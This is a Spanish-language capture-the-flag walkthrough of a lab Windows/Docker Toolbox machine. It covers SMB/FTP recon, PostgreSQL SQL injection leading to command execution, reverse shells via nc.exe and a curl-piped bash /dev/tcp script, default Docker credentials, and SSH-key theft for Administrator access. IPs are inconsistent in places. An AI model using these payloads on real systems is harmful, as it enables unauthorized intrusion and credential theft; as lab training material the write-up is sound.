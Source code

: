 ## Summary

Tags: #SMB #FTP #BurpSuite #HTTPS #PostgreSQL #Netcat #Docker #Contenedor #Windows #RCE #ReverShell #DockerToolbox #Id_RSA

- IP -> 10.10.11.130
- Ports -> TCP (21,22,135139,443,445,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 21 -> FTP
    - 22 -> SSH
    - 135 -> RPC
    - 443 -> HTTPS
    - 445 -> SMB
    - 5985 -> WinRM

## Recon

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```

Anonimous esta permitido
```bash
❯ ftp ❮IP❯                               # Si el servidor nos lo permite nos podemos conectar como Anonymous sin colocar password.
```
Encontramos un archivo que se llama 'Docker-Toolbox'

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
Encontramos un nuevo dominio 'admin.megalogistic.com'
Lo agregamos al **/etc/hosts** y despues entramos a la web para ver que hay y encontramos un panel de autenticacion que la momento de hacerle una inyeccion SQL este nos devuelve un error y nos pone que hay un **PostgreSQL**.

Ahora nos disponemos a abrir BurpSuite e iunterceptaremos las peticiones de la pagina 
* Nos damos cuenta que la data esta viajando por url-encode, por lo que hacemos **Ctrl + Shift + u** para url-decodear
* Buscamos en Google 'HackTricks: [Hacktricks-PostgreSQL](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection)' SQLI para **PostgreSQL** y encontramos lo siguiente 
```bash
❯ username=1' ; select pg_sleep(5);-- - $password=1'    # La web debe de tardar 5 seg en responder 
```

Ahora como podemos injectar comandos, podemos tener un **RCE (Remote Code Execution**) 
* [HackTricks-PostgreSQL-RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program)
```bash
❯ DROP TABLE IF EXISTS cmd_exec;                    # Elimina la tabla si es que existe
❯ CREATE TABLE cmd_exec(cmd_output text);           # Crea una tabla 
❯ COPY cmd_exec FROM PROGRAM 'id';                  # Por medio de esa tabla podemos inyectar un comando 
❯ SELECT * FROM cmd_exec;
```

Podemos colocar un **+** para los espacios o seleccionar y poner **Ctrl + u** y url-encodeamos, para poder colocarlos en BurpSuite y este no nos arrije un error
```bash
❯ CREATE+TABLE+cmd_exec(cmd_output+text);--+-                              # Creamos una tabla 
❯ COPY+cmd_exec+FROM+PROGRAM+'\\10.10.14.2\smbFolder\nc.exe+-e+cmd+10.10.14.2+443';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a conectarnos a un recurso compartido
	# IP = IP de atacante 
	# smbFolder = Nombre del folder del recurso compartido
	# nc.exe = Netcat para Windows
	# cmd = Entablar una ReverShell con la maquina de atacante
	# 443 = Puerto de la ReverShell de la maquina de atacante 
```

Buscamos Netcat en nuestra maquina de atacante y lo colocamos en el folder que vamos a compartir, este Netcat es para Windows
```bash 
❯ locate nc.exe
```

Para compartir los recursos con la maquina victima 
```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Nos ponemos en modo escucha para recibir la ReverShell de la maquina victima 
```bash
❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```


Miramos que no se conecta, enotnces lo intentamos como si fuera una maquina Linux
```bash
❯ COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.14.2/Shell|bash';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a que la maquina victima busque el archivo Shell que contiene la ReverShell en nuestra maquina de atacante y lo procese con bash 
```

Creamos el archivo de la ReverShell
```bash
nvim Shell
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para compartir el recurso 
```

```bash
❯ nc -nlvp 443                              # nos ponemos en escucha para recibir la ReverShell
```

## User

Una vez dentro, nos damos cuenta que estamos denmtro de un contenedor '127.17.0.2'
```bash
❯ hostname -I                                # Nos muestra solo la direccion IP
```
Hacemos tratamiento de la pseudo-consola

* Buscamos en Google credenciales tipicas de [docker-toolbox](https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password) y nos muestra estas: **user:docker, passwd:tcuser**
* Buscaremos que puertos estan abiertos en la maquina victima 

```bash
❯ route -n                                   # Para mirar las routing tables y encontramos la 127.17.0.1
```

Por si el comando **ping** no esta disponible
```bash
❯ (echo ‘’ > /dev/tcp/172.16.0.1/22) 2>/dev/null && echo “[+] Puerto abierto” || echo “[+] Puerto cerrado”
```
Nos damos cuenta que el puero 22 del contenedor esta OPEN, por lo que procedemos a conectarnos con SSH 

```bash
❯  ssh docker@127.17.0.1                                    # Para conectarnos por ssh en el puerto default 22 del contenedor docker
```
Entramos a la inteface y nos damos cuenta que somos el usuario 'docker' 

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```
Miramo que nos podemos convertir en root en el contenedor y eso nos ayudara a buscar la flag user.txt

Buscaremos la flag dentro del usaurio docker, pero o hay nada. Por lo que la buscaremos en la maquina de manera general.
```bash
❯ find  / -name file.txt 2>/dev/null               # Para buscar un archivo en el sistema desde la raiz
```

Ahora nos dirijimos a la raiz '/' y encontramos un dir **'C > Users > Administrator'**, esta es la estructura de Windows. 
```bash
❯ ls -la                          # Podemos observar todos los archivos del dir inclyendo los ocultos 
```
Encontramos un dir **.ssh**. Esto quiere decir que puede que exista un **id_rsa**, copiamos su contenido en nuestra maquina de atacante en un archivo llamada 'id_rsa' y le damos el privilegio 600

 ```bash
❯ chmod 600 id_rsa                              # Para darle un permiso 600 a la id_rsa      
```

```bash
❯ ssh -i id_rsa Administrator@10.10.10.236      # Nos conectamos por ssh teniendo un id_rsa con privilegio 600
```
Nos podemos conectar desde nuestra maquina de atacante ya que en el escaneo de nmap, observamos que el puerto 22 estaba OPEN

## Root

Somo el usuario 'Administrator'  en Windows  
```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ ipconfig                                         # Nos muestra las interfaces y las direcciones IP de Windows
```
Miramos que estemos dentro de la IP de la maquina victima

Nos ponemos a buscar la flag root.txt